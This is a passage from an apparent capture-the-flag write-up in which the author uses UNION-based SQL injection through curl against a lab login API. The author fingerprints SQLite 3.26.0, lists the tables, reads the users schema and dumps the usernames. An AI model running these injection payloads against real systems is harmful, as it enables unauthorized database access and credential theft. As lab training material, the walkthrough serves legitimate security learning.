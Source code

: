 This response tells us the app is indeed vulnerable. Let's try to further enumerate information by first confirming what type of database is in use. [This](http://www.securityidiots.com/Web-Pentest/SQL-Injection/database-type-testing-sql-injection.html) is a good article showing how to detect the various possibilities. Knowing this is a Linux box I tried the SQLite one and got this response:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST 'http://unstable.thm/api/login' -d "username=admin&password=admin'UNION SELECT 1,sqlite_version()--"
[
  [
    1, 
    "3.26.0"
  ]
]
```

So we know we are dealing with sqlite version 3.26.0. Let's get a list of tables, using [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) to help us:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST 'http://unstable.thm/api/login' -d "username=admin&password=admin'UNION SELECT 1,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--"
[
  [
    1, 
    "notes"
  ], 
  [
    1, 
    "users"
  ]
]
```

We have two tables, let's look at the users:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST 'http://unstable.thm/api/login' -d "username=admin&password=admin' UNION SELECT 1,(select sql from sqlite_master where tbl_name = 'users')--"
[
  [
    1, 
    "CREATE TABLE \"users\" (\n\t\"id\"\tINTEGER UNIQUE,\n\t\"username\"\tTEXT NOT NULL UNIQUE,\n\t\"password\"\tTEXT NOT NULL UNIQUE,\n\tPRIMARY KEY(\"id\" AUTOINCREMENT)\n)"
  ]
]
```

Now we know the column names we can extract the data:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST 'http://unstable.thm/api/login' -d "username=admin&password=admin' UNION SELECT 1,group_concat(username) from users--"
[
  [
    1, 
    "julias,linda,marnie,mary_ann,vincent"
  ]
]
```
